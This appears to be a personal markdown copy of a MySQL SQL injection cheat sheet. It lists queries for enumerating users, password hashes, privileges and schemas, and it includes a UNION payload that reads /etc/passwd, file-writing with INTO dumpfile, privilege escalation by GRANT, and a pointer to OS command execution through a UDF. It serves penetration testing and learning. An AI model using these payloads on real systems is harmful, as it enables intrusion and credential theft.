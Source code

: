 # Refs
https://portswigger.net/web-security/sql-injection/cheat-sheet

# My-SQL-Injection-things
#mysql #sql #injection
original: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet


| Version                      | SELECT @@version                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Comments                     | SELECT 1; #comment SELECT /*comment*/1;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| Current User                 | SELECT user(); SELECT system_user();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| List Users                   | SELECT user FROM mysql.user; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| List Password Hashes         | SELECT host, user, password FROM mysql.user; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Password Cracker             | John the Ripper will crack MySQL password hashes.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Privileges              | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns |
| List DBA Accounts            | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = ‘SUPER’;SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’; # priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| Current Database             | SELECT database()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Databases               | SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0 SELECT distinct(db) FROM mysql.db — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Columns                 | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| List Tables                  | SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| Find Tables From Column Name | SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’; — find table which have a column called ‘username’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Select Nth Row               | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0 SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Select Nth Char              | SELECT substr(‘abcd’, 3, 1); # returns c                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| Bitwise AND                  | SELECT 6 & 2; # returns 2 SELECT 6 & 1; # returns 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| ASCII Value -> Char          | SELECT char(65); # returns A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| Char -> ASCII Value          | SELECT ascii(‘A’); # returns 65                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| Casting                      | SELECT cast(’1′ AS unsigned integer); SELECT cast(’123′ AS char);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| String Concatenation         | SELECT CONCAT(‘A’,'B’); #returns AB SELECT CONCAT(‘A’,'B’,'C’); # returns ABC                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| If Statement                 | SELECT if(1=1,’foo’,'bar’); — returns ‘foo’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| Case Statement               | SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| Avoiding Quotes              | SELECT 0×414243; # returns ABC                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| Time Delay                   | SELECT BENCHMARK(1000000,MD5(‘A’)); SELECT SLEEP(5); # >= 5.0.12                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| Make DNS Requests            | Impossible?                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| Command Execution            | If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar). The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this. Remember to compile for the target architecture which may or may not be the same as your attack platform.                                                                                                                                                                                                                                                                                                                                             |
| Local File Access            | …’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’) — priv, can only read world-readable files. SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| Hostname, IP Address         | SELECT @@hostname;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Create Users                 | CREATE USER test1 IDENTIFIED BY ‘pass1′; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| Delete Users                 | DROP USER test1; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| Make User DBA                | GRANT ALL PRIVILEGES ON *.* TO test1@’%'; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| Location of DB files         | SELECT @@datadir;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| Default/System Databases     | information_schema (>= mysql 5.0) mysql                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
